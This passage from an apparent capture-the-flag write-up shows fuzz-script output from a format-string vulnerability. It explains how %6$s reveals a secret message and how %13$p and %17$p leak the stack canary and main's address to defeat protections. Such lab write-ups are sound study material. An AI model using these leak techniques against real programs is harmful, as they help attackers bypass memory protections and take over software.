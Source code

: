 we can get the secret message
```bash
$ python fuzz.py 
1: b'Hi\x00\x00\x00\x00\x00\x00'
2: b'(null)\x00\x00'
3: b'(null)\x00\x00'
4: b'\x00\x00\x00\x00\x00\x00\x00\x00'
5: b'\x8b\x00\x00\x00\x00\x00\x00\x00'
6: b'YOKO\x00\x00\x00\x00'
7: b'(null)\x00\x00'
8: b'(null)\x00\x00'
9: b'\x00\x00\x00\x00\x00\x00\x00\x00'
10: b'\x00\x00\x00\x00\x00\x00\x00\x00'
11: b'(null)\x00\x00'
12: b'(null)\x00\x00'
13: b'\x00\x00\x00\x00\x00\x00\x00\x00'
14: b'\x00\x00\x00\x00\x00\x00\x00\x00'
15: b'\x89\xc7\xe8\x9fs\x01\x00\x00'
16: b'(null)\x00\x00'
17: b'\xf3\x0f\x1e\xfaUH\x89\xe5H\x83\xec@dH\x8b\x04%('
18: b'\x00\x00\x00\x00\x00\x00\x00\x00'
19: b'\x80\x11\xa1j\xfe\x7f\x00\x00'
20: b'\x80\x01k\xcc\xfe\x7f\x00\x00'
21: b'\x00\x00\x00\x00\x00\x00\x00\x00'
22: b'(null)\x00\x00'
23: b'\xc5\x11\xd6\xb9\xff\x7f\x00\x00'
24: b'\x80\xa2\x1a\xd5jU\x00\x00'
```
its on %6$s

changing from %s to %p we can try to find the canary values and main address

```python
$ python fuzz.py 
1: b'0x7ffc4a4aa570'
2: b'(nil)\x00\x00\x00'
3: b'(nil)\x00\x00\x00'
4: b'0x4\x00\x00\x00\x00\x00'
5: b'0x7f01191c0aa0'
6: b'0x7ffc7ecb1fae'
7: b'(nil)\x00\x00\x00'
8: b'(nil)\x00\x00\x00'
9: b'0x2439250000000000'
10: b'0x7024\x00\x00'
11: b'(nil)\x00\x00\x00'
12: b'(nil)\x00\x00\x00'
13: b'0xce7df4b5024c6b00'
14: b'0x1\x00\x00\x00\x00\x00'
15: b'0x7fc39c62a6ca'
16: b'(nil)\x00\x00\x00'
17: b'0x55817ada0374'
18: b'0x100000000'
19: b'0x7ffeb3a272a8'
20: b'0x7ffe4b955088'
21: b'0x4ecced99680d75cf'
22: b'(nil)\x00\x00\x00'
23: b'0x7fff875ae308'
24: b'0x559e87235d50'
```
doing this multiple times we can say that 
- %13$p is the canary value (00 at the end)
- %17$p is the main address (not 0x7f or 0xff at the start and seems like legit address value)
we can confirm our main address using gdb
